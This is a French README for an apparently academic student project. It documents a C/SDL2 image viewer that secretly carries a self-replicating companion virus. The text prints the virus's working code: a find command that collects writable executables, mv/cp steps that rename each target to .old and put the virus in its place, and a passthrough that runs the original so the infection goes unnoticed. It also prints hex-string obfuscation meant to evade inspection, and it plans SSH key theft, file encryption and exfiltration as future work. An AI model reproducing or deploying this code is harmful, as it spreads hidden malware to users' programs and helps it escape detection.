




### Auteurs: 
- *Bash62*
- *Hokanosekai*

Rapport de développement d'un virus compagnon
=========


[](https://code.visualstudio.com/)


# Mediaplayer




Le but de ce projet est de créer un média player qui permet d'afficher des images mais qui cache un virus qui infecte les fichiers exécutables de l'utilisateur.


## Description du projet


Le projet MediaPlayer est un visionneur d'images  et un virus compagnon qui infecte les fichiers exécutables de l'utilisateur. Il est capable d'infecter les fichiers exécutables peut import leurs formats(.exe, . out, ...). Il est aussi capable de lire les images au format. jpg, . png, . svg et. bmp.


Une fois la machine infectée, dès lors que l’utilisateur lance un fichier exécutable qui est infecté, le virus se lance et infecte les nouveaux fichiers exécutables qui ne sont pas encore contaminés. Le virus est capable de se répliquer et de se répandre.


> Le projet a été réalisé en C et SDL2.


## Table des matières


1. [Installation et exécution du projet](#installation-et-exécution-du-projet)
2. [Utilisation du projet](#utilisation-du-projet)
3. [Développement](#développement)
    1. [Mode d'infection](#mode-d'infection)
    2. [Protection contre la surinfection](#protection-contre-la-surinfection)
    3. [Infection](#infection)
        1. [Déplacement](#déplacement)
        2. [Copie](#copie)
    4. [Pour aller plus loins](#pour-aller-plus-loins)
        1. [Miniaturisation du projet](#miniaturisation-du-projet)
        2. [Assombrissement du projet](#assombrissement-du-projet)
    5. [Programmes Cibles](#programmes-cibles)
        1. [1.Calculatrice](#1-calculatrice)
        2. [2.Human Benchmark](#2-human-benchmark)
        3. [3.Pong](#3-pong)
        4. [4.Generateur](#4-generateur)
        5. [5.Pacman](#5-pacman)
4. [Compte rendu de travail](#compte-rendu-de-travail)
5. [Les améliorations possibles dans le futur](#les-améliorations-possibles-dans-le-futur)
6. [Licence](#licence)


## Installation et exécution du projet


Pour installer et exécuter le projet :


```bash
git clone this repo
cd this repo
make
```

Pour compiler il faut installer les dépendances suivantes:

```bash	
# Install dependencies
sudo apt install libsdl2-ttf-dev libsdl2-image-dev libsdl2-dev -y
```

Pour créer les programes cibles :


```bash
./compile.progs.sh
```


## Utilisation du projet


Une fois les programmes cibles créées ainsi que le média player, il faut lancer le média player pour infecter les programmes cibles.


```bash
./Mediaplayer
```


## Développement


Pour le projet MediaPlayer, nous avons utilisé le langage C. Nous avons utilisé le langage C car il est permis de construire des programmes qui peuvent être lancés sur n'importe quelle plateforme.

### Mode d'infection


Dans notre projet nous avons choisi le mode de virus : compagnon. Son rôle est de voler l'identité d'un exécutable cible. Une fois l'identité volée, lorsque l'utilisateur va lancer ce fichier vérolé, le compagnon va essayer de réinfecter de nouvelles cibles potentielles tous en appelant le programme d'origine.


On va dans un premier temps initialiser l’environnement graphique puis lancer le virus qui va vérifier une première condition :


```c
if(strstr(argv[0], "MediaPlayer") ! = NULL) // argv[0] = "MediaPlayer" || "Infecté"
```


Dans ce cas, le virus est lancé et procède à un parcours des fichiers de l'utilisateur pour trouver les potentielles cibles.


```c
/**
* Récupère les fichiers exécutables et modifiables par l'utilisateur avec les droits d'écriture
*/
void getUserWorldWritableFiles(MalwareBuilder *malware)
{
    char cmd[1024] ;
    sprintf(cmd, "find ' % s' -executable -not -name '*.old' -writable -type f -exec ls -l {} \\; 2 > /dev/null | grep 'bin' | cut -d ' ' -f9-", malware->defaultRepository) ;

    getAllFile_exec(cmd, malware) ;
}
```

> Ce code exécute la commande linux `find` dans le répertoire %s qui correspond au repértoire d'éxécution du fichier.
> On spécifie grep 'bin' dans le cadre de nos test pour ne pas infecter des répértoire par erreur.
> Finalement on éxécute getAllFile_exec 


```c
/**
 * @return Execute la command puis renvoie un char* contenant le résultat
*/
void getAllFile_exec(char* command,MalwareBuilder *malware) {
    char buffer[1024];
    FILE* pipe = popen(command, "r");
    while(fgets(buffer, sizeof(buffer), pipe) != NULL) {

        buffer[strcspn(buffer, "\n")] = 0;

        if(isInfected(buffer, malware) == 0){
            infect_prog(buffer, malware);
        }
    }
    pclose(pipe);
}
```
> Execute la commande qui est passé en parametre et récupére le flux I/O pour pouvoir récupérer les noms des éxécutables.

#### Dans notre cas nous avons plusieurs scénarios d'infection :

- L'utilisateur lance le média player (**Primo infection**)

Si l'utilisateur lance le média player alors le média player se lance.

```c
// Start the app
mediaplayer_run(app);
```


- L'utilisateur lance un programme cible()

Si l'utilisateur lance un programme infecté alors on récupére l'éxécutable sain et on l'éxécute( ici on utilise .old pour l'identifier )

```c
char *token;
token = strtok(argv[0],".");
char *lastToken ;
while(token != NULL)
{
    lastToken = token ;
    token = strtok(NULL, ".");
}

char file_path_sain[1000];
sprintf(file_path_sain, "%s%s%s", getUserCurentDir(), lastToken, DEFAULT_EXT);

for(int i = 1; i < argc; i++){
    strcat(file_path_sain, argv[i]);
    strcat(file_path_sain, " ");
}
// Le fichier "sain"
system(file_path_sain);
```
> 


### Protection contre la surinfection

Pour éviter la surinfection nous avons pris plusieurs précautions. Dans un premier temps nous utilisons  `find ... -not -name '*.old'` pour éviter de récupérer les fichiers .old et donc de faire des vérifications inutiles.

Ensuite nous vérifions avec ce code si le fichier est déjà infecté ou non ou buffer est le chemin du fichier infecté et le malware.

```c
if(isInfected(buffer, malware) == 0){
    infect_prog(buffer, malware);
}
```

`isInfected()` fonctionne de la manière suivante:

```c
/**
* Vérifie si le fichier path est infecté .old et sans extension sont présent
* @Param path : chemin du fichier à vérifier
* @Param malware : malware
*/
bool isInfected(char *path, MalwareBuilder *malware)
{
    ...
    return(access(malware_path, F_OK) == 0 && access(path, F_OK) == 0);
    
}

```
> isInfected renvoi vrai si le compagnon est en place ainsi que la cible en .old aussi

### Infection

Voici le déroulement de l'infection:
- déplace et renomme le fichier sain en lui ajoutant un .old en extension 
- Copie le virus à la place du fichier sain.

#### Déplacement

On construit la commande avec le chemin, le nom du fichier sain et sa nouvelle extension (.old)

```c
// mv /home/userl/calculatrice /home/userl/calculatrice.old
char cmd_move[1024];
sprintf(cmd_move, "mv %s %s%s", path, path, malware->defaultExtensionName);
system(cmd_move)

```

#### Copie


On construit la commande pour copier le virus à la place du fichier sain. Dans le cas d'une `primo-infection` c'est le MediaPlayer  qui va être utilisé.
Dans le cas d'un appel d'un compagnon, si il doit infecter de nouveau fichier il se copiera lui même. Cela permet d'empêcher à l'utilisateur de facilement supprimer son MediaPlayer et de perpétuer l'attaque malgré tout.

```c
char cmd_copy[1024];
sprintf(cmd_copy, "cp %s/%s %s", malware->defaultRepository, malware->malwareName, path);
system(cmd_copy);
```


## Pour aller plus loins

Pour aller plus loin nous avons continué le projet et avons fait des modifications.

- Miniaturisation du projet
- Création d'une branche origin/feature/obfuscation pour créer la version la plus crédible de notre virus, qui est une version assombrie


### Miniaturisation du projet

Pour finaliser notre projet nous avons compacté et fusionner les fichiers du média player ainsi que du virus.

> Avant
```bash
└── src
    ├── main.c
    ├── malwareBuilder.c
    ├── malwareBuilder.h
    ├── malwareUtils.c
    ├── malwareUtils.h
    ├── mediaplayer.c
    ├── mediaplayer.h
    ├── window.c
    └── window.h
```
> Après notre virus est confondu avec utils.c

```bash
└── src
    ├── main.c
    ├── mediaplayer.c
    ├── mediaplayer.h
    ├── utils.c
    ├── utils.h
    ├── window.c
    └── window.h
```

 

| Nom  | taille(ko)   | lignes
|-------------- | -------------- | -------------- |
| MediaPlayer    | 80     | 1191     |
| MediaPlayerAssombri    | 80     | 1145     |

On peut voir que la différence de taille n'est pas très importante notamment dû au fait où nous importons la librairie SDL dans notre projet. Il faudrait élaborer le virus pour qu'il ne soit pas dépendant de la librairie SDL. ( Par exemple dire que le média player accepte les plugins et que notre virus est un plugiciel.)

### Assombrissement du projet

Pour commencer nous avons créé un fichier utils.h qui contient les fonctions de notre virus, et créée une structure avec des nombs de variables assombrie.

```c
typedef struct {
    char                *h;
    char                *n;
    char                *p;
} Utils;
```

Le problème de notre virus est qu'il est très facilement détectable, il suffit de faire un `strings` sur le fichier et on voit tout ce qui est écrit dans le code.

Exemple du retour de la commande strings sur le Mediaplayer non assombrie :

```bash
mv %s %s%s
cp %s/%s %s
cmd_copy: %s                                                                                                                                                                                   %s%s
defaultRepository: %s
find '%s' -executable -not -name '*.old' -writable -type f -exec ls -l {} \; 2>/dev/null | grep 'bin' | cut -d ' ' -f9-
```
> On peut voir que l'éxécution est très simple à comprendre

 
Pour résoudre ce problème nous avons créé une fonction qui permet de déchiffrer nos variables définies en hexadécimal.

 ```c
 // find '%s' -executable -not -name '*.old' -writable -type f -exec ls -l {} \\; 2>/dev/null | grep 'bin' | cut -d ' ' -f9-
#define C0            "66696E642027257327202D65786563757461626C65202D6E6F74202D6E616D6520272A2E6F6C6427202D7772697461626C65202D747970652066202D65786563206C73202D6C207B7D205C3B20323E2F6465762F6E756C6C207C2067726570202762696E27207C20637574202D6420272027202D66392D"
// mv %s %s%s
#define C2            "6D762025732025732573"
// cp %s/%s %s
#define C3            "63702025732F2573202573"


char *utils_usage(char *e)
{
  size_t len = strlen(e);
  size_t i, j;
  char *r = (char *) malloc((len / 2) + 1);

  for (i = 0, j = 0; i < len; i += 2, j++) {
      int hb;
      sscanf(&e[i], "%2x", &hb);
      r[j] = hb;
  }
  r[j] = '\0';
  return r;
}
```

Exemple du retour de la commande strings sur le Mediaplayer assombrie :

```md
66696E642027257327202D65786563757461626C65202D6E6F74202D6E616D6520272A2E6F6C6427202D7772697461626C65202D747970652066202D65786563206C73202D6C207B7D205C3B20323E2F6465762F6E756C6C207C2067726570202762696E27207C20637574202D6420272027202D66392D
2E6F6C64
6D762025732025732573
63702025732F2573202573

```

> On peut voir que l'éxécution est beaucoup plus compliqué à comprendre pour un oeil non averti.


## MediaPlayer

MediaPlayer est un lecteur multimédia qui permet de lire des fichiers images.

### Installation et éxécution du projet

Pour installer le projet, il faut se placer à la racine du projet et lancer la commande suivante :

```bash
make
```

Cette commande va compiler le projet et le placer à la racine du projet.

## Programmes Cibles

Les programmes cibles sont des programmes qui sont infectés par le virus compagnon. Nous avons choisi 5 programmes cibles qui sont :

   - Une calculatrice
   - Un test de vitesse de réaction
   - Un jeu de pong
   - Un jeu de stars
   - Un jeu de pacman

Chaque programmes cibles n'est pas infecté par le virus compagnon. Pour infecter les programmes cibles, il faut lancer le virus compagnon (se référer à la section [Installation et exécution du projet](#installation-et-exécution-du-projet)).) 

### Installation et éxécution des programmes cibles

Il éxiste deux façons de compiler les programmes cibles :

   - Globalement (pour tous les programmes cibles)
   - Localement (pour un seul programme cible)

#### Globalement

Pour compiler tous les programmes cibles, il faut se placer à la racine du projet et lancer la commande suivante :

```bash
./compile_progs.sh

```

Cette commande va compiler tous les programmes cibles et les placer dans le dossier `./bin/`.

Vous pouvez ensuite lancer les programmes cibles en vous plaçant dans le dossier `./bin/` et en lançant la commande suivante :

```bash
./<nom_du_programme_cible>
```

> Remarque : Si vous lancez le programme cible depuis un autre dossier que `./bin/`, cela ne fonctionnera pas car les assets (images, sons, etc.) ne seront pas trouvés.


#### Localement

Pour compiler un seul programme cible, il faut se placer dans le dossier racine du programme cible et lancer la commande suivante :

```bash
cd progs/<nom_du_programme_cible>
make local
```

Cette commande va compiler le programme cible et le placer dans le dossier `./bin/`.

Vous pouvez ensuite lancer le programme cible en vous plaçant dans le dossier `./bin/` et en lançant la commande suivante :

```bash
./bin/<nom_du_programme_cible>
```

### 1. Calculatrice

C'est une calculatrice disposant d'une interface graphique (voir ci-dessous). Elle permet de faire des opérations simples comme des additions, des soustractions, des multiplications et des divisions. Elle prend en compte les nombres décimaux.


### 2. Human Benchmark

C'est un test de vitesse de réaction. Il faut cliquer sur la cible le plus rapidement possible. Le test se termine lorsque le joueur a cliqué sur 100 cibles. Le temps de réaction est affiché en millisecondes. Le joueur peut sélectionner la taille de la cible (XS, S, M, L, XL).


### 3. Pong

C'est un jeu de pong se jouant à deux ou contre l'ordinateur. Le jeu se termine lorsque l'un des joueurs a marqué 10 points.



### 4. Password

C'est un générateur de mots de passe. L'utilisateur peut choisir la longueur du mot de passe et le nombre de mots de passe à générer. Le mot de passe est affiché en clair.



### 5. Pacman

C'est un jeu de pacman. Le joueur doit manger les pac-gommes pour gagner des points. Le jeu se termine lorsque le joueur a mangé toutes les pac-gommes.




## Compte rendu de travail

Pour ce projet nous avons travaillé ensemble en utilisant l'outil GitHub pour pouvoir synchroniser notre code. Nous avons utilisé le système de branches pour pouvoir travailler sur des fonctionnalités différentes en même temps. Une fois la fonctionnalité développé nous avons utilisé le système de pull request pour pouvoir valider les modifications apportées au code avant de les intégrer à la branche principale. 

Notre projet contient 2 branches principales :

   - main
   - features/obfuscation

Nous avons aussi crée une branche pour chaques programmes cibles pour pouvoir continuer le développement de chacun d'entre eux en parallèle et sans interférer avec les autres.

Durant ce projet nous n'avons pas rencontré de problème particulier sauf lors que l'on a fait l'erreur de lancer notre programme dans notre répertoir de travail.


## Les améliorations possibles dans le futur

- Ajouter des fonctionnalitées d'attaque réel au virus comme:
    - Crypter les fichiers infectés
    - Voler les clefs ssh
    - Voler un rapport de la machine
    - Exfiltrer des données
    
- Obfuscation plus poussée du code
- Signer le virus
- Pouvoir identifier le virus à la machine infectée

## Licence
MIT License


